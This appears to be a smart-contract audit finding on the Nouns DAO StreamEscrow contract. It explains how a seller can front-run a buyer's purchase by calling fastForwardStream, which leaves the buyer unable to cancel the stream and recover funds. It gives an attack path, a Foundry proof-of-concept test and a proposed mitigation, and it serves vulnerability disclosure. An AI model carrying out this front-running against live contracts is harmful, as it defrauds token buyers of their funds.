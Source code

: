 Merry Coconut Starfish

Medium

# Malicious user can fast-forward streams to prevent stream cancellation for buyers

### Summary

The **fast-forward stream mechanism** will cause a financial loss for buyers as a malicious user can front-run the transfer of the token, execute [`fastForwardStream`](https://github.com/sherlock-audit/2024-11-nounsdao/blob/8b6fb94f103134e751cf016e5c3f4185be89bb49/nouns-monorepo/packages/nouns-contracts/contracts/StreamEscrow.sol#L188-L224), and significantly reduce the unstreamed funds available for cancellation. This exploitation takes advantage of the current stream design’s lack of synchronization during ownership transfer.

### Root Cause

The choice to allow stream fast-forwarding without considering ownership transfer synchronization is a mistake, as it enables malicious actors to front-run transfers and manipulate the stream balance unfairly.

### Internal pre-conditions

1.	**Malicious user** needs to win a high-value auction to establish a large stream.
2.	**Malicious user** needs to list the NFT for sale at a lower price to attract buyers.
3.	The **buyer** needs to initiate a token purchase and attempt to cancel the stream.

### External pre-conditions

1.	The **blockchain environment** must allow the malicious user to detect and front-run the buyer’s token purchase transaction.
2.	The `fastForwardStream` function must be callable during or immediately before a token transfer.

### Attack Path

1.	The **malicious user** bids an excessively high amount in the auction (e.g., 100 ETH), establishing a large stream (e.g., 80 ETH).
2.	The **malicious user** lists the purchased NFT for sale at a reduced price (e.g., 50 ETH).
3.	A **buyer** initiates a purchase transaction, intending to cancel the stream to recover unstreamed funds.
4.	The **malicious user** front-runs the transfer by calling `fastForwardStream`, reducing the remaining unstreamed funds.
5.	The **buyer** completes the purchase but cannot recover the expected unstreamed funds upon cancellation.

### Impact

The **buyer** suffers a financial loss of approximately the difference between the initial stream value and the accelerated stream value (e.g., up to 80 ETH). The **malicious user** gains by exploiting the buyer’s expectation of reclaiming unstreamed funds.

### PoC

Add this test contract as part of `nouns-monorepo/packages/nouns-contracts/test/foundry/StreamEscrow.t.sol`, then run using this command:

```bash
// if your not located in the `nouns-contracts` folder:
cd packages/nouns-contracts
forge test --match-contract  FastForwardStreamPoC  -vvv
```

```solidity

contract FastForwardStreamPoC is BaseStreamEscrowTest {
    function testFastForwardFrontRun() public {
        // Step 1: Malicious user wins auction
        vm.startPrank(streamCreator);
        uint256 nounId = 2;
        nounsToken.mint(streamCreator, nounId);
        escrow.forwardAllAndCreateStream{ value: 100 ether }({ nounId: nounId, streamLengthInTicks: 20 });
        nounsToken.transferFrom(streamCreator, user, nounId);
        vm.stopPrank();
        assertEq(escrow.getStream(2).lastTick, 20);
        assertEq(escrow.getStream(2).ethPerTick, 5 ether);
        
        // Step 2: Malicious user lists NFT for sale
        address buyer = makeAddr('buyer');
        uint256 purchasePrice = 50 ether;
        vm.deal(buyer, purchasePrice);

    
        // Step 3: Buyer initiates purchase
        bytes memory data = abi.encodeWithSignature("transferFrom(address,address,uint256)", user, buyer, nounId);
    
        // Step 4: Malicious user front-runs and fast-forwards stream
        vm.startPrank(user);
        escrow.fastForwardStream(nounId, escrow.getStream(nounId).lastTick - escrow.currentTick());

        // The buy transaction completed now
        (bool sent, ) = address(nounsToken).call(data);
        assert(sent);
        vm.stopPrank();
        vm.prank(buyer);
        payable(user).transfer(purchasePrice);

        // Step 5: Buyer cancels stream, expecting to recover unstreamed funds
        // It reverts with `stream not active` error
        vm.startPrank(buyer);
        nounsToken.approve(address(escrow), nounId);

        vm.expectRevert('stream not active');
        escrow.cancelStream(nounId);
        vm.stopPrank();

        assertEq(user.balance, purchasePrice);
        assertEq(buyer.balance, 0);
    }
}
```

### Mitigation

- Introduce a grace period post-transfer where fast-forwarding is disabled, giving the new owner time to cancel the stream.